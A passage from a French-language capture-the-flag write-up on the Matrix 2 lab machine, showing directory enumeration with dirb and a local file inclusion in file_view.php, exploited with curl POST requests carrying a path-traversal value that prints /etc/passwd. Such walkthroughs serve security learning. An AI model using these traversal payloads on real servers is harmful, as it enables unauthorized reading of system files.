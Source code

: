 ![Affichage de l'image 1337-port-Matrix2.png](images/1337-port-Matrix2.png)

Force est de constater qu'il n'y a pas grand-chose à se mettre sous la dent : la connexion à l'interface de ```Shell In A Box``` sur le port 12320 nécessite un couple d'identifiants, idem sur le port 1337 où une authentification [htpasswd](https://httpd.apache.org/docs/2.4/fr/programs/htpasswd.html) est présente (_401 Authorization Required_).  Une recherche approfondie avec [__DIRB__](https://tools.kali.org/web-applications/dirb) permet finalement de mettre la main sur ```robots.txt``` qui liste un seul fichier nommé ```file_view.php```.

![Affichage de l'image 12320-port-Matrix2.png](images/12320-port-Matrix2.png)

```console
root@blinils:~# dirb https://192.168.56.101:12322/ -X .txt

--snip--
URL_BASE: https://192.168.56.101:12322/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.txt) | (.txt) [NUM = 1]

--snip--
+ https://192.168.56.101:12322/robots.txt (CODE:200|SIZE:38)
--snip--

root@blinils:~# curl --insecure https://192.168.56.101:12322/robots.txt
User-agent: *
Disallow: file_view.php

root@blinils:~# curl --insecure https://192.168.56.101:12322/file_view.php
<!-- Error file parameter missing..!!! -->
```

Très rapidement, on devine une [inclusion de fichier local](https://www.commentcamarche.net/contents/61-attaques-par-manipulation-d-url) (_local file inclusion_ en anglais) sur la page ```file_view.php``` et son paramètre ```file```. Le but du jeu consiste à lire le contenu de fichiers stockés sur le serveur, autres que ceux initialement prévus dans le schéma de navigation du site. Rien n'empêche d'inclure un autre fichier présent sur le serveur, puisqu'aucun contrôle n'est implémenté sur la valeur du paramètre ```file```. Un exemple ? Le fichier ```/etc/passwd``` qui contient la liste des utilisateurs du système. La méthode [GET](https://www.w3schools.com/tags/ref_httpmethods.asp) (le paramètre ```file``` est inclus dans l'URL) est testée en premier  : aucun résultat. La méthode [POST](https://www.w3schools.com/tags/ref_httpmethods.asp) (le paramètre est situé dans le corps de la requête) est ensuite testée : bingo !

```console
root@blinils:~# curl --insecure https://192.168.56.101:12322/file_view.php?file=/etc/passwd
<!-- Error file parameter missing..!!! -->

root@blinils:~# curl --insecure https://192.168.56.101:12322/file_view.php --data "file=/etc/passwd"

root@blinils:~# curl --insecure https://192.168.56.101:12322/file_view.php --data "file=../../../../../etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
--snip--
shellinabox:x:107:109:Shell In A Box,,,:/var/lib/shellinabox:/bin/false
ntp:x:108:111::/home/ntp:/bin/false
stunnel4:x:109:113::/var/run/stunnel4:/bin/false
postfix:x:110:114::/var/spool/postfix:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
n30:x:1000:1000:Neo,,,:/home/n30:/bin/bash
testuser:x:1001:1001::/home/testuser:
```
